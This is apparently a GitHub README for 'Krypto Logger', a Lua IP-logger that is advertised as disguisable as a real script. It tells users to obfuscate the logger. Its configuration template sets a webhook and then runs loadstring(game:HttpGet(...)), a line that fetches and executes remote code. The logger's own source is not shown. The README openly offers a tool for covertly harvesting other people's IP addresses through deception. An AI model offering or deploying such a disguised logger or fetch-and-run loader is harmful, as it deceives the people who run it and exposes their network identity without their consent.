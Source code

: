 # Krypto Logger
*Advance modern IP-Logger that can be disguised as a real script. All under 200 lines!💃*

# Configuring

A template on how to configure it. Make sure to obfuscate it 🕶

```lua
_G.Webhook = ""
_G.SomeoneExecuted = "<enter like what your ip logger name>"
loadstring(game:HttpGet(''))()
```


